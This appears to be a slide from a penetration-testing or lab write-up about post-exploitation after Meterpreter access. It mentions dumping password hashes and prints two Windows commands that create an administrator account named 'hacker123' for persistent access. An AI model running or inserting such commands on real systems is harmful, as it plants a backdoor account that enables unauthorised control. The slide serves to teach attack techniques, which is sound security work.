

Post-Exploitation: Information Gathering & Persistence
Once Meterpreter access was established, we gathered system information, dumped password hashes, and created a new administrative user for persistence.

User Creation
net user hacker123 Password123 /add
net localgroup administrators hacker123 /add
Net user and net localgroup add a new administrator account for future access.